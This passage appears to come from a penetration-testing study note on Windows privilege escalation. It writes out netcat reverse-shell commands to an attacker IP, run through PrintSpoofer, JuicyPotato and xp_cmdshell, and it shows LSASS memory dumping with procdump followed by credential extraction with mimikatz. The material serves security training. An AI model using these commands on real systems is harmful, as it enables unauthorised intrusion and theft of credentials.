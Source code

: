 A netcat would give us the shell.

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. We can use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) or [RoguePotato](https://github.com/antonioCoco/RoguePotato). [Here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) are a better explanation about PrintSpoofer. 
```console
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe <OUR IP> 8443 -e cmd"
```

Or we can do it directly in the shell:
```console
C:\> .\JuicyPotato.exe -t * -l <PORT> -p C:\Windows\System32\cmd.exe -a "/c C:\<PATH>\nc.exe -e cmd <ATTACKERS IP> <ATTACKERS PORT>"
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-c` | argument to execute a command |

Again, a netcat would give us the shell.

## SeDebugPrivilege 

To run a particular application or service or assist with troubleshooting, a user might be assigned the **SeDebugPrivilege**. We should aim for special accounts, for example a developer or sysadmin employee, who might have an account with this privilege assigned. We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the SysInternals suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service (LSASS) process, which stores user credentials after a user logs on to a system.
```console
C:\zeropio> procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Now we can use [mimikatz](https://github.com/gentilkiwi/mimikatz) using the `sekurlsa::minidump` command. Then after `sekurlsa::logonPasswords` we gain the NTLM hash of the local administrator. 
```console
C:\htb> mimikatz.exe 

mimikatz # log 

mimikatz # sekurlsa::minidump lsass.dmp 

mimikatz # sekurlsa::logonpasswords
```

> Typing `log` will send all output command to a txt file
{: .prompt-tip}

If we are unable to load tools to the target, but have RDP, we can take the dump from the **Task Manager**. 
